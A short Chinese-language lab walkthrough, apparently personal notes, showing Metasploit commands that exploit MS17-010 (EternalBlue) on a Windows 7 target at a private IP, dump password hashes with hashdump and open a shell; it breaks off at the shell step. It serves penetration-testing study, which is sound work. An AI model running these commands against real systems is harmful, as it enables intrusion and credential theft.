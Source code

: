 ### kali 攻击 windows7

#### 进行攻击

首先通过`msfconsole`打开msf功能

```
msfconsole
```

![image-20241207184609461](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071846502.png)

然后搜索ms17-010脚本

```
search ms17-010
```

![image-20241207184306525](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071843625.png)

对靶机进行扫描，信息收集

```
use auxiliary/scanner/smb/smb_ms17_010
show options
```

![image-20241207184732415](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071847479.png)

接下来配置靶机IP信息，并运行

```
set rhosts 192.168.226.129
run
```

![image-20241207184830056](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071848087.png)

`exploit`切换到攻击模块，并配置靶机IP，运行

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.226.129
run
```

![image-20241207185012776](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071850840.png)

利用`hashdump`查看靶机的用户名与密码

```
hashdump
```

![image-20241207185619998](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071856022.png)

利用`shell`登录到靶机的Terminal界面
